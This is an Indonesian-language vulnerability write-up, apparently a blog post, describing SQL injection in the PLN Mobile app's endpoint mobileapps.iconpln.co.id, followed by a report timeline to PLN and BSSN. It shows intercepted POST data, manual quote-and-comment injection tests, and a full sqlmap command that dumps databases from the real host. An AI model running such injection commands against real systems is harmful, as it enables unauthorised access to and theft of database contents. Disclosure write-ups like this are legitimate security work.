 ```yaml
---
title: SQL Injection at Subdomain iconpln.co.id (Intercept Application Mobile)
date: 2020-08-17
---
```


![ ](https://miro.medium.com/max/600/1*nmPP_fIUsZoBn408ydemgA.jpeg)

Halo semuanya, Kali ini saya mau menulis write up sederhana yaitu Vulnerability SQL Injection di http://mobileapps.iconpln.co.id

Penemuan ini bermula dari saya melihat tagihan pembayaran listrik dirumah saya dan membuka aplikasi PLN Mobile Android.

Saya berpikir untuk melakukan intercept menggunakan Burpsuite pada aplikasi PLN Mobile. Sebelumnya saya mengkonfigurasi Burpsuite agar bisa melakukan intercept http request di aplikasi android

Pada tahap selanjutnya, saya melakukan intercept di bagian “informasi tarif listrik berlaku”

![ ](https://miro.medium.com/max/2400/1*sM-XM_wRWyRgYhCGpIMd1Q.jpeg)

Dan ini dia hasil intercept nya

![ ](https://miro.medium.com/max/2400/1*uMJRVAuaFyrchkHysB1I8A.png)

Saya mendapatkan request url dan post datanya

> Request URL: http://mobileapps.iconpln.co.id/infotdlpln
> Post Data: kel=R&produk=PASCABAYAR&serial=2676912684812711463125741116100882149710822849775988211212784127367787&versi=451&id=2676912684812711463125741116100882149710822849775988211212784127367787

___

Selanjutnya saya memeriksa di post datanya apakah vulnerable SQLI atau tidak, saya
menginjeksikan dengan single quote pada parameter “produk”. Maka response nya adalah

![ ](https://miro.medium.com/max/2400/1*FIMQa81qYPey_9Wqavtu_Q.png)

“Error 500”

___

Awalnya saya tidak yakin bahwa Vulnerable SQLI, maka saya ingin memeriksanya lagi dengan menambahkan `-- -` setelah single quote. Maka response nya adalah

![ ](https://miro.medium.com/max/2400/1*c96BFoR_gr51BsuRoJL3CQ.png)

Responsnya adalah menampilkan data-data normal.
Jika response yang muncul menampilkan data - data normal ketika menambahkan `-- -` maka bisa di pastikan vulnerable terhadap SQLI (tidak semua bisa atau pasti, tetapi mungkin saja)

___

Selanjutnya saya melakukan scan di SQLmap dengan command

```
sqlmap -u https://mobileapps.iconpln.co.id/infotdlpln --data=”kel=R&produk=PASCABAYAR&serial=2676912684812711463125 741116100882149710822849775988211212784127367787&versi=451 &id=267691268481271146312574111610088214971082284977598821 1212784127367787” --level 3 --risk 3 --dbs --threads 10
```

Maka hasil scan nya adalah

![ ](https://miro.medium.com/max/2400/1*SP5nk4I_M_2yr6TfsUk3Hg.png)

Terakhir data HPH Token Gratis

![ ](https://miro.medium.com/max/2400/1*FD8wjTLyqsVrBHyVjWF9iw.png)

TETAPI DATA TAHUN 2017 HEHE...

___

## Timeline Report

+ 27 Juli, 2020 = Send report via email humas@iconpln.co.id
+ 28 Juli, 2020 = Send report via email bantuan70@bssn.go.id
+ 8 Agustus, 2020 = Send report via email pln123@pln.co.id

Sekian write up dari saya ini, mohon maaf apabila ada salah dalam penulisan kata. jangan lupa di share yaa, agar saya semangat untuk menulis write up kembali.

Contact me at [About Me](/about/)
